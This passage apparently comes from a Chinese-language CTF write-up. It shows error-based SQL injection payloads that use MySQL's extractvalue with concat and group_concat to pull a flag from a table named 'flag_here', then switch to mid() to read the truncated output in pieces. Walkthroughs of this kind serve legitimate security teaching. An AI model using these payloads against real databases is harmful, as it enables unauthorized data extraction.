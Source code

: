 那么只需爆出`data`的数据就好了：

```php
tt=1'and extractvalue(1,concat(1,(select group_concat(data) from flag_here))) %23
```

![image-20220126142231682](../CTF-images/image-20220126142231682.png)

但是比较糟糕，报错信息限制了数据的显示，那么采取分段显示：

```php
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),1,16) from flag_here))) %23
```

![image-20220126142422548](../CTF-images/image-20220126142422548.png)
